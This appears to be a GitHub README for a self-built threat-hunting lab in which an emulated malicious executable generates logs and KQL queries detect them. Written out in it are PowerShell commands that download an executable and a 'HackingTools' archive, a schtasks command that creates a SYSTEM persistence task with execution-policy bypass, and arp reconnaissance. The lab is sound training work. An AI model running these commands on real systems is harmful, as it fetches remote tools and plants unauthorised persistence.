 # Threat Hunting Scenario (System Compromise)
**Threat Actor Malicious File Download and Malicious File Execution**

### `MaliciousExecutable.exe` Creation and Purpose

The "malicious" executable used within the project was originally written as a PowerShell script and converted into an exectuable using `PS2EXE` (https://github.com/MScholtes/PS2EXE). The intention of the executable was to emulate possible actions a threat actor would undertake once inside a system. I wanted the the executable to perform several commands to populate the `Microsoft Defender for Endpoint` logs. To add another layer of realism to the project, I obfuscated the commands to "challenge" and test a threat hunter's knowledge and resourcefulness. While there were other possible network reconnaissance techniques the executable could have performed, I chose a non-intrusive technique in an attempt to not disrupt other devices and systems in the network. 


## Steps the Threat Actor Took to Create Logs and IoCs:
1. Several failed user logons in quick succession.
2. Opened a PowerShell terminal and executed the command `Invoke-WebRequest -Uri \"https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/MaliciousExecutable.exe\" -OutFile \"$env:USERPROFILE\\Downloads\\MaliciousExecutable.exe\"` to initiate the `MaliciousExecutable.exe` download.
3. Once `MaliciousExecutable.exe` was downloaded, the threat actor simply double-clicked the executable to run it. 
4. When executed, `MaliciousExecutable.exe` ran several encoded PowerShell commands to populate the EDR logs. These commands consisted of:

   - First Command: `Invoke-WebRequest -Uri "https://github.com/AaronRMartinez/Threat-Hunting-Scenario-Compromise/raw/refs/heads/main/HackingTools.zip" -OutFile "$env:USERPROFILE\Downloads\HackingTools.zip"`

   - Second Command: `Expand-Archive -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -DestinationPath "$env:USERPROFILE\Downloads\HackingTools" -Force`

   - Third Command: `Remove-Item -Path "$env:USERPROFILE\Downloads\HackingTools.zip" -Force`

   - Fourth Command: `schtasks /create /tn "PersistenceScheduledTask" /tr "powershell.exe -ExecutionPolicy Bypass -File $env:USERPROFILE\Downloads\HackingTools\HackingTools\PersistenceScript.ps1" /sc onlogon /ru SYSTEM /f`

   - Fifth Command: `arp -a | Out-File -FilePath "$env:USERPROFILE\Desktop\arp_results.txt"`

The executable downloaded a zip file to the user's Downloads file, extracted the contents, and deleted the artifact created by the extraction process. The executable the created a scheduled task to mimic the actions a threat actor would perform to gain persistence on the system and conducted non-intrusive network reconnaissance.   

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceLogonEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect a high number of failed logon attempts on a system. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to gain a general overview of a system to observe if any malicious activity is occurring.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcesskEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any commands executed by either the threat actor or malicious files.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any network connections that could suggest possible file downloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect any malicious file creation occurring on the system.|

---

## Related Queries:
```kql
// Detect failed and successful logon attempts for the "aaronmart" account on the endpoint "arm-thcompromis"
DeviceLogonEvents
| where DeviceName == "arm-thcompromis"
| project Timestamp, DeviceName, ActionType, LogonType, AccountName, FailureReason

// "MaliciousExecutable.exe" being downloaded by threat actor
// PowerShell command executing this action contained the "Invoke-WebRequest" command
DeviceEvents
| where DeviceName == "arm-thcompromis"
| where Timestamp > datetime(2025-03-15T15:02:10.5325975Z)
| where ActionType == "PowerShellCommand"
| where AdditionalFields contains "Invoke-WebRequest"
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" was successfully installed and is present on the disk
DeviceFileEvents
| where FileName has_any ("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine

// "MaliciousExecutable.exe" was executed
DeviceProcessEvents
| where ProcessCommandLine has_any("MaliciousExecutable.exe")
| project  Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// "MaliciousExectuable.exe" executing the PowerShell commands
DeviceProcessEvents
| where DeviceName == "arm-thcompromis"
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| order by Timestamp asc
| project Timestamp, ActionType, FileName, ProcessCommandLine

// "MaliciousExecutable.exe" creating a scheduled task
DeviceEvents
| where InitiatingProcessFileName == "maliciousexecutable.exe"
| where FileName == "schtasks.exe"
| order by Timestamp asc
| project Timestamp, InitiatingProcessAccountName, InitiatingProcessId, InitiatingProcessCommandLine, AdditionalFields

// "MaliciousExecutable.exe" saving the "arp -a" results in a text file
DeviceFileEvents
| where FileName == "arp_results.txt"
| project  Timestamp, DeviceName, RequestAccountName, ActionType, InitiatingProcessCommandLine
```

---

## Created By:
- **Author Name**: Aaron Martinez
- **Author Contact**: https://www.linkedin.com/in/aaron-m-59725a332/
- **Date**: March 16, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `March  16, 2025`  | `Aaron Martinez`   

